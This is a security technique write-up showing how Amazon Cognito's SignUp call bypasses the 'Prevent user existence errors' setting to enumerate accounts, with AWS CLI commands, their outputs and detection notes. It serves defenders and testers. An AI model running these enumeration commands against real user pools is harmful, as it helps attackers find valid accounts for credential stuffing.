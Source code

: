 ```yaml
---
author_name: Nick Frichette
title: Bypass Cognito Account Enumeration Controls
description: Leverage a flaw in Cognito's API to enumerate accounts in User Pools.
---
```


<div class="grid cards" markdown>
-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    AWS Docs: [Managing user existence error responses](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html)
</div>

Amazon [Cognito](https://aws.amazon.com/cognito/) is a popular “sign-in as a service” offering from AWS. It allows developers to push the responsibility of developing authentication, sign up, and secure credential storage to AWS so they can instead focus on building their app.

By default, Cognito will set a configuration called `Prevent user existence errors`. This is designed to prevent adversaries from [enumerating accounts](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) and using that information for further attacks, such as [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

While this is useful in theory, and a good default to have, it can be bypassed via [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls for usernames. This bypass was originally reported via a GitHub [issue](https://github.com/aws-amplify/amplify-js/issues/6238) in July 2020 and Cognito is still vulnerable as of early 2024.

!!! Note
	Cognito user pools can be configured to prevent disclosing user existence errors via [alias attributes](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html#cognito-user-pool-managing-errors-prevent-userexistence-errors) for email addresses and phone numbers, but not usernames. Be mindful that the 'Prevent user existence errors' setting does not cover all scenarios as detailed below.    

## Example Responses

To demonstrate the responses depending on the configuration and if a user does/does not exist, here are some examples. The `admin` user exists in the user pool and is the account we will be trying to enumerate.

!!! Note
	The `client-id` value for a Cognito User Pool is not secret and is accessible from the JavaScript served by the client. 

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (UserNotFoundException) when calling the InitiateAuth operation: User does not exist.
```

As you can see, an adversary can use the `UserNotFoundException` and `NotAuthorizedException` to enumerate whether an account does or does not exist. By enabling the `Prevent user existence errors` configuration, defenders can successfully mitigate these types of attacks. However we will show how it can be bypassed.

## cognito-idp:SignUp

The `Prevent user existence errors` configuration appears to only impact the `initiate-auth` flow. It does not impact [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html). Because of this we can use this API call to enumerate if a user does or does not exist. Please see the following examples:

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username admin \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"

An error occurred (UsernameExistsException) when calling the SignUp operation: User already exists
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username notreal \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"
{
	"UserConfirmed": false,
	"CodeDeliveryDetails": {
    	"Destination": "b***@b***",
    	"DeliveryMedium": "EMAIL",
    	"AttributeName": "email"
	},
	"UserSub": "a20…"
}
```

## Detection Opportunities

If an adversary is using this technique at scale to identify what accounts exist in your user pool, you can attempt to detect this behavior by alerting on a sudden increase in `Unconfirmed` user accounts.

![User Pool Identities](../../images/aws/enumeration/bypass_cognito_user_enumeration_controls/user_pool_identities.png)

Depending on the configuration of your user pool, an adversary could attempt to get around this by using a real email address to confirm the user name.

### CloudTrail and CloudWatch Limitations

If you attempt to build detections around this using CloudTrail or CloudWatch, you will run into challenges. This is because a significant portion of useful telemetry (basically all of it) is omitted in these logs. For example, the `userIdentity` who made the API call is `Anonymous`

```json
{
	"eventVersion": "1.08",
	"userIdentity": {
    	"type": "Unknown",
    	"principalId": "Anonymous"
}
```

And the `username` and `userAttributes` are hidden:

```json
"requestParameters": {
    "clientId": "719...",
    "username": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "password": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "userAttributes": "HIDDEN_DUE_TO_SECURITY_REASONS"
}
```

For this reason, you can use CloudTrail or CloudWatch to track the number of [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls, and their associated `sourceIPAddress`, but not access their details. 
